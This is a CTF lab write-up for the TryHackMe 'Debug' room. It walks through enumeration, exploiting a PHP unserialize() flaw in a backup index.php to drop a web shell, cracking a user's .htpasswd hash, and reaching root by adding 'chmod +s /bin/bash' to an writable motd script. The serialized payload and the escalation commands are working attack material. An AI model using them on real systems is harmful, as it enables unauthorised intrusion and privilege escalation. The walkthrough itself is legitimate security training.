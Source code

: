 # 85 - Debug (PHP Serialization RCE)

Room Link --> [https://tryhackme.com/room/debug](https://tryhackme.com/room/debug)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap 10.10.110.29 -Pn -n -vvv

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### FFUF Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.110.29/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 500 --ic

backup
grid
javascript
less
javascripts
/index.html
/index.php
/message.txt
```
{% endcode %}



We got an `index.php.bak and index.html.bak` file in the backup dir.

{% code title="index.php.bak" overflow="wrap" lineNumbers="true" %}
```php
<?php
class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {
$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';
}
}
// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();
?>
```
{% endcode %}

**IN THIS SNIPPET,**

**THE USER INPUT GET UNSERIALIZED WE CAN USE THE PHP DESERIALIZATION EXPLOIT.**

**THEORY:**

[**Serialization**](https://notsosecure.com/remote-code-execution-via-php-unserialize/) is when an object in a programming language (say, a Java or PHP object) is converted into a format that can be stored or transferred. Whereas deserialization refers to the opposite: it’s when the serialized object is read from a file or the network and converted back into an object.

Insecure deserialization vulnerabilities happen when applications deserialize objects without proper sanitization. An attacker can then manipulate serialized objects to change the program’s flow.

In order to successfully exploit a PHP Object Injection vulnerability two conditions must be met:

1. The application must have a class which implements a PHP magic method (such as \_\_wakeup or \_\_destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
2. All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes.

### PHP Deserialization Exploit

Here we are going to focus on the `debug` parameter.

{% code overflow="wrap" lineNumbers="true" %}
```php
<?php
class FormSubmit
{
   public $form_file = 'shell.php';
   public $message = '<?php system($_GET["cmd"]); ?>';
}
print serialize(new FormSubmit);
?>

# php shell.php > shell.txt # serialized data is stored in shell.txt
O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:30:"<?php system($_GET["cmd"]); ?>";}

# copy and urlencode the result using burp.
```
{% endcode %}

Send this as the value of the `debug` parameter using burpsuite, Setup NC listener to catch the shell.

<figure><img src=".gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

When we navigate to [http://10.10.110.29/shell.php?cmd=id](http://10.10.110.29/shell.php?cmd=id) we get RCE.

<figure><img src=".gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>

From here its easy to get RevShell.

### Priv Esc

After gaining access, the same dir, there is a `.htpasswd` file there.

```bash
www-data@osboxes:/var/www/html$ ls -al
ls -al
total 72
drwxr-xr-x 6 www-data www-data  4096 Nov 21 02:32 .
drwxr-xr-x 3 root     root      4096 Mar  9  2021 ..
-rw-r--r-- 1 www-data www-data    44 Mar  9  2021 .htpasswd
drwxr-xr-x 5 www-data www-data  4096 Mar  9  2021 backup
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 grid
-rw-r--r-- 1 www-data www-data 11321 Mar  9  2021 index.html
-rw-r--r-- 1 www-data www-data  6399 Mar  9  2021 index.php
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 javascripts
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 less
-rw-r--r-- 1 www-data www-data   470 Nov 21 02:36 message.txt
-rw-r--r-- 1 www-data www-data  2339 Mar  9  2021 readme.md
-rw-r--r-- 1 www-data www-data    30 Nov 21 02:36 shell.php
-rw-r--r-- 1 www-data www-data 10371 Mar  9  2021 style.css
www-data@osboxes:/var/www/html$ cat .htpasswd
cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
www-data@osboxes:/var/www/html$ 
```

We can crack with john

```
jamaica          (james)
```

We can ssh into james acct.

### Priv Esc to root

There is a note for James from root.

{% code overflow="wrap" lineNumbers="true" %}
```bash
james@osboxes:~$ cat Note-To-James.txt 
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
james@osboxes:~$ 

```
{% endcode %}

so James can modify the welcome message in ssh that located in `/etc/update-motd.d/00-header`

```bash
james@osboxes:/etc/update-motd.d$ ls -al
total 44
drwxr-xr-x   2 root root   4096 Mar 10  2021 .
drwxr-xr-x 134 root root  12288 Mar 10  2021 ..
-rwxrwxr-x   1 root james  1220 Mar 10  2021 00-header
-rwxrwxr-x   1 root james     0 Mar 10  2021 00-header.save
-rwxrwxr-x   1 root james  1157 Jun 14  2016 10-help-text
-rwxrwxr-x   1 root james    97 Dec  7  2018 90-updates-available
-rwxrwxr-x   1 root james   299 Jul 22  2016 91-release-upgrade
-rwxrwxr-x   1 root james   142 Dec  7  2018 98-fsck-at-reboot
-rwxrwxr-x   1 root james   144 Dec  7  2018 98-reboot-required
-rwxrwxr-x   1 root james   604 Nov  5  2017 99-esm
```

SO I EDIT THE '00-header' FILE AND WRITE:

`chmod +s /bin/bash` .

Then login ssh again from another terminal.

And am ROOT

```bash
Last login: Tue Nov 21 02:43:29 2023 from 10.18.88.214
-bash-4.3$ id
uid=1001(james) gid=1001(james) groups=1001(james)
-bash-4.3$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
-bash-4.3$ bash -p
bash-4.3# id
uid=1001(james) gid=1001(james) euid=0(root) egid=0(root) groups=0(root),1001(james)
bash-4.3# 
```

Done!

